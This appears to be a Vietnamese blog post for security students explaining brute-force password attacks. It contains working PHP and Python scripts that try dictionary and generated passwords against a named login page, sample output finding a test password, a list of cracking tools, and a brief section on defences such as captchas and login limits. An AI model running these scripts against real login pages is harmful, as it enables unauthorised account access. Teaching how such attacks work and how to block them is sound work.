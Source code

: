 ```yaml
---
layout: post
title: Hiểu thêm về tấn công brute force
date: 2015-08-23 11:28
categories: CSATT attack
---
```

Hôm trước thầy Tuấn Anh đã nhắc đến phương pháp này, tuy nhiên tôi sẽ làm rõ thêm một số vấn đề, đây không phải là một bài giải cặn kẽ cho các bạn, nó mang tính định hướng nhiều hơn.

# Code sample
Giả sử tôi có trang đăng nhập là http://tqk.itps.com.vn/demo.php. tôi sẽ tiến hành brute mật khẩu của user: test@demo.brute

PHP:
{% highlight php startinline=true %}
<?php
$dic = ['demo', '123', '1234', '123456', 'test', 'demo1', 'demo123', '123demo'];
foreach ($dic as $password) {
  $email = 'test@demo.brute';
  $url = 'http://tqk.itps.com.vn/demo.php';
  $data_string = 'email=' .urldecode($email). '&password=' .urlencode($password);
  $ch = curl_init();
  curl_setopt($ch, CURLOPT_URL, $url);
  curl_setopt($ch, CURLOPT_POST, 1);
  curl_setopt($ch, CURLOPT_POSTFIELDS, $data_string);
  curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
  $result = curl_exec($ch);
  curl_close($ch);
  if (strpos($result, 'talent') == false){
    echo "<pre> Password: " .$password. " => Wrong password!</pre>";
  } else{
    echo "<pre> Password: " .$password. " => You got it.</pre>";
  }
  
  }
?>
{% endhighlight %}

Run test:

````
Password: demo => Wrong password!
Password: 123 => Wrong password!
Password: 1234 => Wrong password!
Password: 123456 => Wrong password!
Password: test => Wrong password!
Password: demo1 => Wrong password!
Password: demo123 => You got it.
Password: 123demo => Wrong password!
````

Python:

~~~python
import requests
pwlist = ['demo', '123', '1234', '123456', 'test', 'demo1', 'demo123', '123demo']
url = 'http://tqk.itps.com.vn/demo.php'
for password in pwlist:
  payload = {'email':'test@demo.brute', 'password':password}
  req = requests.post(url, data=payload)
  if('talent' in req.text):
    print('Password found:', password)
~~~


````
Admin@LEOK-PC
$ py demobrute.py
Password found: demo123
````
Trên đây tôi đã demo cho các bạn phương pháp brute bằng từ điển - dictionary hay wordlist ( từ điển ở đây chính là array/list tôi đưa vào, thông thường thì lấy từ điển từ file). tôi sẽ không đi sâu vào code ( nếu như một số bạn không hiểu), mà chủ yếu là để các bạn nhìn ra rằng phương pháp tấn công này được áp dụng như thế nào. Nói thêm rằng thông thường các worldlist sẽ được khởi tao thông qua các thuật toán, pattern để giảm bớt các mật khẩu "vô nghĩa", nhưng không phải luôn luôn như thế.

Việc tấn công có hay không sử dụng từ điển đều được hoạt động trên cùng cơ chế, tức là bạn sẽ phải generate ra các password theo pattern ( bao nhiêu kí tự, thường hay hoa, hay giả sử đã biết kí tự gì đó...v.v..) rồi lần lượt thực hiện việc đăng nhập và dựa vào kết quả trả về để xác định mật khẩu đúng.

Xem ví dụ sau, ở đây tôi sử dụng itertools trong python để generate wordlist:

~~~python
import requests
import itertools
import time
charset = 'abcdefghijklmnopqrstuvwxyz0123456789'
url = 'http://tqk.itps.com.vn/demo.php'
res = itertools.product(charset, repeat=6)
start_time = time.time()
for i in res:
    password = ''.join(i)
    payload = {'email':'test@demo.brute', 'password':password}
    req = requests.post(url, data=payload)
    print('Trying password: ', password)
    if('talent' in req.text):
        print('Password found:', password)
        print('\nTaken %s seconds to crack very easy password' %time.time() - start_time)
    else:
        print('Failed.....')
~~~

Và khi tôi chạy đoạn code này, với một máy tính "bình dân" của tôi, ước tính phải mất đến hơn 3 năm để có thể duyệt hết được số lượng hơn 2 tỉ mật khẩu đơn giản có độ dài 7 kí tự chỉ bao gồm chữ cái thường và chữ số. ( Ở đây tôi không đề cập đến việc perfomance, multithreading, đường truyền, sử dụng GPU và một số vấn đề khác). Một con số đáng kể.

Đa số các tấn công brute force áp dụng vào các dịch vụ đăng nhập web/server ( via GET/POST) và tấn công vào các mã hóa, hàm băm ( sau này các bạn sẽ được tìm hiểu về hàm băm trong môn CSLT Mật mã), SSH, cùng một số sản phẩm khác.

Tôi sẽ nói qua về việc brute hàm băm (sử dụng thuật toán "một chiều" tức là có mã hóa nhưng không có giải mã), đó là chúng ta sử dụng các bản rõ, nằm trong wordlist, rồi thực hiện mã hóa sau đó so sánh với bãn mã cần crack. Tất nhiên, các mật mã hàm băm vẫn có xác suất trùng lặp, có nghĩa là có thể có 2 bản rõ nhưng cùng một bản mã, tuy nhiên xác suất này rất nhỏ, đủ để người ta chấp nhận được.

Có thể hiểu việc brute giống như các bạn đang thử làm một điều gì đó có phù hợp với tôi hay không, như thử giày, thử công việc, thử người yêu ;))) Đại khái là như thế đó.

# Protection

Vậy chắc chắn tấn công brute force sẽ phá vỡ tính chất của ATTT của một hệ thống thông tin nếu không có biện pháp khắc phục. Về cơ bản, các máy chủ có nhiều cách để bảo về khỏi các cuộc tấn công đơn giản này bằng cách cấu hình rule cho firewall, hoặc cũng có thể áp dụng ngay trên các ứng dụng đăng nhập, như captcha là một ví dụ điển hình, hay việc giới hạn số lần đăng nhập thất bại trong khoảng thời gian nào đó. Bạn đọc có thể tự tìm hiểu thêm.

# More information

* Trong suốt bài viết tôi không hề muốn sử dụng đến từ "mật khẩu", vì đơn giản, chúng ta đang học một môn chuyên nghành, và tôi nghĩ "mật khẩu" không phải là từ có thể thay thế cho "password".

* Trên bài viết tôi có đề cập đến việc sử dụng code cho việc brute force, tuy nhiên, hiện tại có rất nhiều công cụ mạnh mẽ giúp chúng ta tạo wordlist, crack hash, crack network password có thể kể đến như [John The Ripper](http://www.openwall.com/john/), [Hashcat](http://hashcat.net/oclhashcat/), [Hydra](https://github.com/vanhauser-thc/thc-hydra), [burpsuite](https://portswigger.net/burp/), [cewl](https://digi.ninja/projects/cewl.php)

* Toàn bộ code các bạn có thể xem [tại đây](https://github.com/bytekve/bytekve.github.io/tree/master/codesample).